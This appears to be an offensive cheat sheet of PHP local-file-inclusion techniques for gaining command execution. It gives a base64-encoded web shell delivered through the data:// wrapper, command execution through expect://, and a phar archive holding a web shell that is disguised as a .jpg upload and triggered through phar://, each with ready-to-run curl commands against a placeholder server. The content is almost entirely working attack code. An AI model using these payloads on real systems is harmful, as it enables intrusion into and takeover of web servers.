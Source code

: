 [[LFI]]
[[php]]
##### Via LFI and PHP wrappers
Encode PHP script in base64:
```bash
echo '<?php system($_REQUEST("cmd")) ?>' | base64
```

```shell
curl -s 'http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id' | grep uid
```

#### Data wrapper expect
Check config for
```
extension=expect
```

```shell
curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

##### Via phar upload
```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();

?>
```

```bash
php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```

```bash
curl http://<SERVER_IP>:<PORT>/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id
```
